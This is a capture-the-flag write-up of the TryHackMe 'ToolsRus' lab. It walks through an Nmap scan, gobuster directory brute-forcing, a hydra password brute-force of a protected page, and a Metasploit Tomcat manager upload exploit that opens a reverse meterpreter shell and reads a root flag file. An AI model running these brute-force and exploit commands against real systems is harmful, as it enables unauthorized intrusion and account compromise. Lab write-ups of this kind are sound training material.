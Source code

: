 ```yaml
---
layout: post
title:  "Tryhackme: ToolsRus"
date:   2021-01-15 18:00:56 +0200
categories: tryhackme
---
```


## Nmap Scan ##

As always, we begin with our usual Nmap scan.
```
Nmap scan report for 10.10.45.103
Host is up, received echo-reply ttl 63 (0.056s latency).
Scanned at 2021-01-20 15:09:49 EST for 577s
Not shown: 65531 closed ports
Reason: 65531 resets
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 51:45:94:c5:51:42:ff:bd:ab:44:2f:47:4d:22:46:ca (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDiI3uH3w9a+RiEfu7Gp5et4/aZyPR4pfmcXgxCwQe1UC1ZzgQ8EmaK77jXBOhL6NE8NNp27l0/d/Q+aayMjvchnGbk0uykCowUEW5rSly0ARep/5PYrdJ2jKp1SEIBR+C6cgKwOay1+w9p1bB71I55wMKo12nsCwkLnwR8UZh2vwEdxf59FTBE4zW/ppJ7NYzB5JHqzp4rIuYo8ZqRBWfWBtwqub/LNCEeIsWxpNmSo/Y2VQo467GhGuFy5RShmhO4W4gGKIVbRt0Avj3PSwdCzxuHJXVtTJEdMeqMZ9UUzZzVLUm+dsUefYWS8uTtvVjv3lktVG3TbEG0ruvixixf
|   256 28:7a:3e:e6:15:a4:c5:6f:ee:20:bd:46:59:a1:28:f0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGehpOlDDm6qSFzfGtiEYc7h6TCjMcmX/00JCAouQ0k4NCpbY3b48R/LP+AitEkqqbvIBCDVo+1K+LSOcW2NabQ=
|   256 c3:d1:64:bf:04:e9:b9:e7:d9:9d:f5:21:e9:12:af:7e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFDtToBeKyEOftjc0w1SuFxjPBITy4/0N+tmDX80mEJt
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
1234/tcp open  http    syn-ack ttl 63 Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
8009/tcp open  ajp13   syn-ack ttl 63 Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
Device type: general purpose|WAP|phone
Running (JUST GUESSING): Linux 3.X|5.X|4.X (95%), Asus embedded (94%), Google Android 5.X|6.X|7.X (92%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/h:asus:rt-n56u cpe:/o:linux:linux_kernel:3.4 cpe:/o:linux:linux_kernel:5.4 cpe:/o:google:android:5.1 cpe:/o:google:android:6 cpe:/o:google:android:7 cpe:/o:linux:linux_kernel:4
OS fingerprint not ideal because: Timing level 5 (Insane) used
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), ASUS RT-N56U WAP (Linux 3.4) (94%), Linux 3.16 (94%), Linux 5.4 (94%), Linux 3.1 (93%), Linux 3.2 (93%), Android 5.1 (92%), Android 6.0 - 7.1.2 (Linux 3.18 - 4.4.1) (92%), Android 7.1.1 - 7.1.2 (92%), Linux 3.13 (92%)
No exact OS matches for host (test conditions non-ideal).
```

## Bruteforcing Directories ##

Running ```gobuster dir -u http://10.10.45.103 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 16``` will show us some interesting directories, among which is the one we are prompted to find.
```
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.45.103
[+] Threads:        16
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/01/15 15:04:16 Starting gobuster
===============================================================
/guidelines (Status: 301)
/protected (Status: 401)
/server-status (Status: 403)
===============================================================
2021/01/15 15:21:00 Finished
===============================================================

```

## Password Bruteforcing ##

Entering the directory in our browser's URL box we can find a potential username, we can bruteforce.
Checking out the ```protected``` directory we stumble upon a login prompt. Let's try and bruteforce it.
``` hydra -l USER -P /usr/share/wordlists/rockyou.txt.gz 10.10.45.103 -t 16 http-get /protected/```

This way we will get the insecure credential this found user has.

## Exploiting outdated Tomcat ##

As we login using the found credentials, we are prompted to look for another web service. Thus we can try the service indicated to us by our previous nmap scan, the one running on port 1234.

Doing a simple ```searchsploit``` we find out this service is vulnerable and we are also suggested a good exploit.

Entering Metasploit, we try to see if this exploit can help in our case.

```
msf6 > use multi/http/tomcat_mgr_upload
msf6 exploit(multi/http/tomcat_mgr_upload) > set rhost 10.10.45.103
msf6 exploit(multi/http/tomcat_mgr_upload) > set httppassword PASSWORD
msf6 exploit(multi/http/tomcat_mgr_upload) > set httpusername USER
msf6 exploit(multi/http/tomcat_mgr_upload) > set rport 1234
msf6 exploit(multi/http/tomcat_mgr_upload) > set lhost tun0
msf6 exploit(multi/http/tomcat_mgr_upload) > run
```

Success! We popped a meterpreter shell. Let's get our shell!

```
meterpreter > cat /root/flag.txt
```